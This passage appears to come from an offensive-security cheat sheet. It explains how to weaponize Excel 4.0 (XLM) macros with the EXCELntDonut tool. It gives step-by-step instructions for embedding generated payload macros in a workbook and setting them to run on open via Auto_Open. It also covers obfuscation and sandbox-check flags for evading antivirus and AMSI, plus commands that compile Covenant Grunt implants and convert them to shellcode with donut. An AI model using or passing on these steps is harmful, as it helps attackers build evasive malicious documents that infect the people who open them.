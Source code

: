 ```powershell
```


## XLM Excel 4.0 - EXCELntDonut

* XLM (Excel 4.0) macros pre-date VBA and can be delivered in .xls files.
* AMSI has no visibility into XLM macros (for now)
* Anti-virus struggles with XLM (for now)
* XLM macros can access the Win32 API (virtualalloc, createthread, ...)

1. Open an Excel Workbook.
2. Right click on "Sheet 1" and click "Insert...". Select "MS Excel 4.0 Macro".
3. Open your EXCELntDonut output file in a text editor and copy everything.
4. Paste the EXCELntDonut output text in Column A of your XLM Macro sheet.
5. At this point, everything is in column A. To fix that, we'll use the "Text-to-Columns"/"Convert" tool under the "Data" tab.
6. Highlight column A and open the "Text-to-Columns"  tool. Select "Delimited" and then "Semicolon" on the next screen. Select "Finished".
7. Right-click on cell A1* and select "Run". This will execute your payload to make sure it works.
8. To enable auto-execution, we need to rename cell A1* to "Auto_Open". You can do this by clicking into cell A1 and then clicking into the box that says "A1"* just above Column A. Change the text from "A1"* to "Auto_Open". Save the file and verify that auto-execution works.

:warning: If you're using the obfuscate flag, after the Text-to-columns operation, your macros won't start in A1. Instead, they'll start at least 100 columns to the right. Scroll horizontally until you see the first cell of text. Let's say that cell is HJ1. If that's the case, then complete steps 6-7 substituting HJ1 for A1

```ps1
git clone https://github.com/FortyNorthSecurity/EXCELntDonut

-f path to file containing your C# source code (exe or dll)
-c ClassName where method that you want to call lives (dll)
-m Method containing your executable payload (dll)
-r References needed to compile your C# code (ex: -r 'System.Management')
-o output filename
--sandbox Perform basic sandbox checks. 
--obfuscate Perform basic macro obfuscation. 

# Fork
git clone https://github.com/d-sec-net/EXCELntDonut/blob/master/EXCELntDonut/drive.py
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -platform:x64 -out:GruntHttpX64.exe C:\Users\User\Desktop\covenSource.cs 
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -platform:x86 -out:GruntHttpX86.exe C:\Users\User\Desktop\covenSource.cs
donut.exe -a1 -o GruntHttpx86.bin GruntHttpX86.exe
donut.exe -a2 -o GruntHttpx64.bin GruntHttpX64.exe
usage: drive.py [-h] --x64bin X64BIN --x86bin X86BIN [-o OUTPUTFILE] [--sandbox] [--obfuscate]
python3 drive.py --x64bin GruntHttpx64.bin --x86bin GruntHttpx86.bin
```

XLM: https://github.com/Synzack/synzack.github.io/blob/3dd471d4f15db9e82c20e2f1391a7a598b456855/_posts/2020-05-25-Weaponizing-28-Year-Old-XLM-Macros.md
